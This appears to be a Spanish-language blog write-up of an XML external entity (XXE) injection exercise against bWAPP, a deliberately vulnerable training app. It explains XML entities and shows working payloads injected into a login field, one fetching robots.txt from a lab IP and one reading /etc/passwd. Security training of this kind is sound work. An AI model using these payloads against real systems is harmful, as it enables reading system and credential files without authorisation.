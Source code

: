 ```yaml
---
layout: post
title: bWAPP - xxe injection
subtitle: "bWAPP - xxe injection"
tags: [xml,xxe]
---
```


> **XML** (Extensible Makuo Language) es un lengaje de marcado que se usa comunmente en el desarrollo web. Se utiliza para almacenar y transportar datos.

**version**: se utiliza para especificar la versió del estandar XML que se está utilizando   
**encoding**: se declara para especificar la codificación a utilizar.  

### Que es una entidad

Son la forma de representar datos que estan presentes dentro de un documento XML.

La declaración de una entidad externa usa la palabra clave `SYSTEM` y debe especificar una `URL` desde el cual se debe cargar el valor de la entidad.

`<! ENTITY var SYSTEM "URL">`

`var`: nombre de la entidad  
`SYSTEM`: palabra clave utilizada  
`URL`: url que queremos obtener al realizar un ataque xxe  

## Ataque XXE

Interceptamos la petición de la opción `external Injection Attacks` de la aplicación `bWAPP`.

![xml](../assets/imgs/xxeb/xml.png)

Se puede observar que no hay ningun filtro aplicado por lo que es posible un XXE.  
haciendo un análisis de los campos establecidos concluyo que el campo login es inyectable.

Declaramos un `doctype` con el nombre **reset** y lugo dentro de eso declaramos una entidad llamada **bee**. Usamos el identificador de `SYSTEM` y lugo ingreo la URL de robots.txt.

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "http://192.168.0.106/bWAPP/robots.txt">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![robots](../assets/imgs/xxeb/robots.txt)

**Archivo remoto**

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "file:///etc/passwd">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>

![passwd](../assets/imgs/xxeb/passwd.png)
